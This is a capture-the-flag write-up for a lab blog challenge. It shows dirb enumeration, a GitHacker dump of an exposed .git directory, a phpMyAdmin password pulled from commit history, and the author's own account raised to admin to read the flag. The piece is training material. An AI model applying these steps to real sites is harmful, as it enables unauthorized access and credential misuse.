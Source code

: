 # Blog site (4)

Hi, packet inspector,

a simple blog webpage was created where all employees can write their suggestions for improvements. It is one part of the optimization plan designed by our allmighty AI.

Examine the web [http://blog.mysterious-delivery.tcc:20000/](http://blog.mysterious-delivery.tcc:20000/) and find any interesting information.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.
- Any employee of Mysterious Delivery, Ltd. can contribute to the blog – do not trust any information (notably flags) appearing in posts.

## Solution

### Web enumeration

After a quick lookup, the page is [flaskr (flask example blog)](https://github.com/pallets/flask/tree/main/examples/tutorial/flaskr).

Some people have tried [jinja template injection](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) but it was unsuccessful. Which is logical, the flag will probably not be publicly visible to all solvers.

![jinja template injection attempt](jinja-template-injection-attempt.png)

The [/settings](http://blog.mysterious-delivery.tcc:20000/settings) page is forbidden. I'm guessing the flag will be here.

![settings page forbidden](settings-page-forbidden.png)

Let's scan this site with dirb, maybe we'll find something special ;).

```
> dirb http://blog.mysterious-delivery.tcc:20000/ /usr/share/wordlists/dirb/common.txt

+ http://blog.mysterious-delivery.tcc:20000/.git/HEAD (CODE:200|SIZE:23)
+ http://blog.mysterious-delivery.tcc:20000/create (CODE:302|SIZE:209)
+ http://blog.mysterious-delivery.tcc:20000/hello (CODE:200|SIZE:13)
==> DIRECTORY: http://blog.mysterious-delivery.tcc:20000/phpmyadmin/
+ http://blog.mysterious-delivery.tcc:20000/settings (CODE:302|SIZE:209)
```

We found `.git` and `phpmyadmin` directories. We need login credentials for `phpmyadmin`, which we don't have yet. But what about `.git`? That looks pretty sus.

### Investigating git directory

/.git/HEAD

```
ref: refs/heads/master
```

/.git/config

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = Jozef Dev
	email = jozef.dev@attendance.ttc
```

There is also index file, let's use [GitHacker](https://github.com/WangYihang/GitHacker) tool to restore the entire git repository.

```
> githacker --url http://blog.mysterious-delivery.tcc:20000/.git/ --output-folder result

...
INFO Downloading basic files...
INFO [73 bytes] 200 .git/description
INFO [23 bytes] 200 .git/HEAD
INFO [18 bytes] 200 .git/COMMIT_EDITMSG
INFO [2619 bytes] 200 .git/index
INFO [5523 bytes] 200 .git/logs/HEAD
INFO [240 bytes] 200 .git/info/exclude
INFO [41 bytes] 200 .git/ORIG_HEAD
INFO Downloading head files...
INFO [192 bytes] 200 .git/objects/ad/8a16703a1102d9550525ebfcfd97d1f4349664
INFO [246 bytes] 200 .git/objects/d9/5803cb9777c66154b086a7f8c3232b85dc5749
INFO [180 bytes] 200 .git/objects/f4/3eb707fe11f5b58757e683e27687f63fc03556
INFO [199 bytes] 200 .git/objects/30/919e78222d434003949ed3803b0163d34a0bb0
INFO [187 bytes] 200 .git/objects/5a/5646d360662d8b596e03034a5d686cb4fc70da
INFO [123 bytes] 200 .git/objects/a7/96306a74457bf81f52f7b8d45a20997b68d92d
INFO [186 bytes] 200 .git/objects/46/15dee75de7f414211d935419f4f71cc11f0b30
INFO [143 bytes] 200 .git/objects/b0/6b989ab11e9a9b1d9075eb35988f995e16d50d
INFO [199 bytes] 200 .git/objects/3a/a17a01a4494a031e666f6de8b2dce2fff9d928
INFO [190 bytes] 200 .git/objects/7e/4a77ab036cbc04fe7d800d1d07b52be6bb0942
INFO [168 bytes] 200 .git/objects/f5/407ad8e35263b631e5fc50552b27c6cab63a07
INFO [186 bytes] 200 .git/objects/76/5c9b10d132371585efddd968a5296ed4a8e6df
INFO Downloading blob files...
INFO [800 bytes] 200 .git/objects/9d/227a0cc43c3268d15722b763bd94ad298645a1
INFO [112 bytes] 200 .git/objects/85/a35845adb3903826fa5d8a6409796dc576c327
INFO [47 bytes] 200 .git/objects/73/c76f23a8df2b7418acfc7a1d7c0c2b6c4fad31
INFO [74 bytes] 200 .git/objects/5b/e56f120dfe89249160f547ca762bc264bd9ba1
INFO [102 bytes] 200 .git/objects/97/d55d517eb21005d9abda1bf327ead3cab44756
INFO [670 bytes] 200 .git/objects/41/f3f6ba716aa3630f7d68605bfc0685d5d7986e
INFO [859 bytes] 200 .git/objects/92/84bc87ebd9091d749802e547033687d8671be4
INFO [62 bytes] 200 .git/objects/43/8ffb52cde6714ce8556840def949f54a61295b
INFO [1308 bytes] 200 .git/objects/c8/bdc58996bcb898424288739b4019b4bbd70b63
INFO [1264 bytes] 200 .git/objects/a3/bd32f45aa45dbce78387c8ee1a01863af21306
INFO [713 bytes] 200 .git/objects/e6/4c86f1bf98d4fcedbc914f8a0081d662ff76b2
INFO [242 bytes] 200 .git/objects/bb/70c6272fd428ab652aeec640365de08917c86f
...
```

Let's search for code changes using Git Kraken.

![git kraken first image](git-kraken-1.png)

Ok, we have confirmed that there will be a flag on [/settings](http://blog.mysterious-delivery.tcc:20000/settings).

![git kraken flag at settings page](git-kraken-2.png)

We can also notice that we need our user account to have an admin role.

![git kraken flag at settings page role](git-kraken-3.png)

`56843437e5c747a2c9c08e4b79f109c3` looks like password for phpmyadmin, but we can't log in with username `ctfb5`.

![git kraken phpmyadmin password](git-kraken-4.png)

In next commit we can see, that the username was changed to `attendance`.

![git kraken phpmyadmin username](git-kraken-5.png)

### Getting flag

Well, let's try username `attendance` and password `56843437e5c747a2c9c08e4b79f109c3` to log in.

It works! Now I'll just set admin role on my user account.

![phpmyadmin](phpmyadmin.gif)

We should have rights to access [/settings](http://blog.mysterious-delivery.tcc:20000/settings).

![settings page](getting-flag.gif)

And we have!

`FLAG{gDfv-5zlU-spVN-D4Qb}`
